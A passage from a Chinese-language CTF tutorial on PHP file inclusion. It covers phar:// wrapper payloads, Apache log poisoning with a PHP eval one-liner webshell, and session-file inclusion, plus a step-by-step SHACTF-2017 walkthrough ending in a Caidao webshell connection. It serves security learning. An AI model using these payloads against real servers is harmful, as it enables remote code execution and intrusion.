 1. `D:\file.zip`表示压缩包的绝对路径
2. 后跟`%23`分割压缩包和压缩包中要访问的文件名

#### 5. phar://

类似`zip://`，相对路径和绝对路径都可以使用，不管后缀名是什么都会将文件当作压缩包解压

```
构造方法：
1. ?file=phar://D:\file.zip\flag.txt    //绝对路径
2. ?file=phar://file.zip\flag.txt    //相对路径
```

### 二、包含日志文件

当我们访问网站时，服务器的日志中都会记录我们的行为，当我们访问链接中包含 PHP 一句话木马时，也会被记录到日志中。我们把 PHP 代码插入到日志文件中，再通过包含这个日志文件来执行其中的 PHP 代码  
要求：日志文件可读，知道日志文件存储目录  
一般日志存储目录会被修改，需要读取服务器配置文件（`.conf`）或者查看`phpinfo()`信息。通常需要 curl 命令行 url 访问工具或者 bp 修改浏览器转码字符来**避免转码而导致代码无法执行**

Apache 运行后一般默认会生成两个日志文件，Windows 下是`access.log`（访问日志）和`error.log`(错误日志)，Linux 下是`access_log`和`error_log`，访问日志文件记录了客户端的每次请求和服务器响应的相关信息

参考：  
[包含日志文件 getshell](https://www.cnblogs.com/my1e3/p/5854897.html)

#### 例题

来源：[SHACTF-2017-Web-writeup](https://chybeta.github.io/2017/08/06/SHACTF-2017-Web-writeup/#Methon-Two)

1. 题目提示 apache 的 log，访问`http://.../?page=//etc/apache2/sites-enabled/000-default.conf`，得知`error.log`在默认位置，而 CustomLog 由`var/www/html/log.sh`决定
2. 访问`http://.../?page=//var/www/html/log.sh`，得知 CustomLog 保存到`/var/www/html/logs/{HOST}.log`中，而{HOST}即为自己的 ip 地址
3. 构建访问`payload：http://.../<?php @eval($_POST['test']);?>`，用 bp 截包修改被转义的字符并发送
4. 访问对应 ip 地址的 log 文件：`http://.../?page=//var/www/html/logs/yourvpsip.log`
5. 菜刀连上，密码为 test，得到 flag

### 三、包含 SESSION

PHP 手册中的描述：

1. PHP 会将会话中的数据设置到 `$_SESSION` 变量中
2. 当 PHP 停止的时候，它会自动读取 `$_SESSION` 中的内容，并将其进行序列化，然后发送给会话保存管理器来进行保存
3. 对于文件会话保存管理器，会将会话数据保存到配置项 `session.save_path` 所指定的位置。

要包含并利用的话，需要能控制部分 sesssion 文件的内容。暂时没有通用的办法。有些时候，可以先包含进 session 文件，观察里面的内容，然后根据里面的字段来发现可控的变量，从而利用变量来写入 payload，并之后再次包含从而执行 php 代码

php 的 session 文件的保存路径可以在 phpinfo 的`session.save_path`看到，  
session 文件格式： `sess_[phpsessid]` ，phpsessid 在发送的请求的 cookie 字段中可以看到

#### 例题

来源：[PHP 文件包含 Session](https://chybeta.github.io/2017/11/09/一道CTF题%EF%BC%9APHP文件包含/)
